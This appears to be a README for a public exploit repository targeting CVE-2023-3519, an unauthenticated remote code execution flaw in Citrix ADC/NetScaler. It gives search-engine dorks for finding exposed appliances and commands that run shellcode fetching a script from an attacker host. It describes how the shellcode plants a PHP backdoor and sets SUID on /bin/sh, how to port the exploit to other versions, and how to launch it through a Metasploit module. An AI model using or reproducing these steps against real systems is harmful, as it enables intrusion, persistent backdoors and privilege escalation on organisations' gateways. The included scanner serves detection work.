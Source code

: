 # CVE-2023-3519

![](https://img.shields.io/static/v1?label=Product&message=Citrix%20ADC&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Citrix%20VPX%2013.1-48.47&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Code%20Execution&color=red)



This exploit uses addresses and shellcode for Citrix VPX 13.1-48.47. For the full writeup, click [here](https://bishopfox.com/blog/analysis-exploitation-cve-2023-3519).
 - Shodan dork:
```
title:"NetScaler AAA","Citrix Gateway","NetScaler Gateway"
```
- [Hunter](https://hunter.how/) dork:
```
product.name="NetScaler AAA"
```
```
product.name="Citrix Access Gateway"
```

### Scanner
```
# Check a single URL
python3 scanner.py --url https://example.com

# Check multiple URLs from a file
python scanner.py --file urls.txt

# Check multiple URLs from a file and check for IOCs
python scanner.py --file urls.txt --ioc-check
```
You can also use the [template for nuclei.](https://github.com/SalehLardhi/CVE-2023-3519)

### Usage exploit
NASM is required to build the shellcode.
```
$ sudo apt install nasm
```

The included shellcode will download and run a shell script from a remote http(s) server. The script takes 3 arguments: the target host, the target port, and the URL of a shell script payload. An example payload which runs `id` and `uname -a` before cleaning up after itself is included in this repo.

```
$ echo 'id' > a
$ python3 -m http.server &
$ python3 exploit.py target.com 443 attack.er:8000/a
```
The URL must be short enough to fit in the shellcode buffer, and you will get a warning if it is too long.

### Shellcode artifacts
The shellcode will create a PHP backdoor in `/var/netscaler/logon/a.php` and set the SUID bit on `/bin/sh`. The included `sh` payload shows an example of automatically cleaning up these artifacts. Also note that the shellcode does not close its file descriptors, so excessive repeated exploitation may result in resource exhaustion.

### Adapting to other versions
For FreeBSD-based Citrix targets, you should only need to find 3 values: the offset of the saved return pointer, a `jmp rsp` ROP gadget (or something equivalent, such as `push rsp; ret;`), and the address to jump to in order to avoid a crash. These parameters are all hardcoded near the top of `exploit.py`.

### Metasploit Framework

```
cp citrix_formssso_target_rce.rb /usr/share/metasploit-framework/modules/exploits/freebsd/http/
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/freebsd/http/citrix_formssso_target_rce
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
